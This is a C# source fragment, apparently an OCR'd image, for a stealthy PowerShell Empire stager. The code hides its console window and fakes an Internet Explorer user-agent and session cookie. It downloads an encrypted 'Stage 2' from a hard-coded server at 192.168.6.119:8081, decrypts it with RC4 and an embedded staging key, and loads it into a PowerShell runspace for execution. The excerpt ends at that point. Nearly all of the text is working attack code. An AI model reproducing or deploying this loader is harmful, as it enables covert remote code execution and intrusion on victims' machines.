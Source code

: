 ```
        }
 
        // Hide Windows function by our friends from StackOverFlow
        // https://stackoverflow.com/questions/34440916/hide-the-console-window-from-a-console-application
        [DllImport("kernel32.dll")]
        static extern IntPtr GetConsoleWindow();
 
        [DllImport("user32.dll")]
        static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
 
        static void Main(string[] args)
        {
            // To Hide the ConsoleWindow (It may be a better way...)
            var handle = GetConsoleWindow();
            ShowWindow(handle, 0);
 
            // Avoid sending Expect 100 Header 
            System.Net.ServicePointManager.Expect100Continue = false;
 
            // Create a WebClient Object (No Proxy Support Included)
            WebClient wc = new WebClient();
            string ua = "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko";
            wc.Headers["User-Agent"] = ua;
            wc.Headers["Cookie"] = "session=968PH6bE9CDkwYGfsUPraz0x5PQ=";
 
            // Set the Server Address and URL 
            string server = "http://192.168.6.119:8081";
            string target = "/CWoNaJLBo/VTNeWw11212/";
 
            // Download The Data or Stage 2
            byte[] data = wc.DownloadData(server + target);
 
            // Extract IV
            byte[] iv = data.Take(4).Select(i => i).ToArray();
 
            // Remove the IV from the data
            byte[] data_noIV = data.Skip(4).ToArray();
 
            // Set Key value for decryption. PowerEmpire StageingKey value 
            string key = "fdcece0a22c10f83dccc8f17c95a33d4";
            byte[] K = Encoding.ASCII.GetBytes(key);
 
            // Combine the IV + Key (New random key each time)
            byte[] IVK = new byte[iv.Length + K.Length];
            iv.CopyTo(IVK, 0);
            K.CopyTo(IVK, iv.Length);
 
            // Decrypt the Message
            byte[] decrypted = RC4.Decrypt(IVK, data_noIV);
 
            // Convert the stage2 decrypted message from bytes to ASCII
            string stage2 = System.Text.Encoding.ASCII.GetString(decrypted);
 
            // Create a PowerShell Object to execute the command 
            PowerShell PowerShellInstance = PowerShell.Create();
 
            // Create the variables $ser and $u which are part of the downloaded stage2
            PowerShellInstance.Runspace.SessionStateProxy.SetVariable("ser", server);
            PowerShellInstance.Runspace.SessionStateProxy.SetVariable("u", ua);
 
            // Add the Script Stage 2 to the Powershell Object
            PowerShellInstance.AddScript(stage2);
```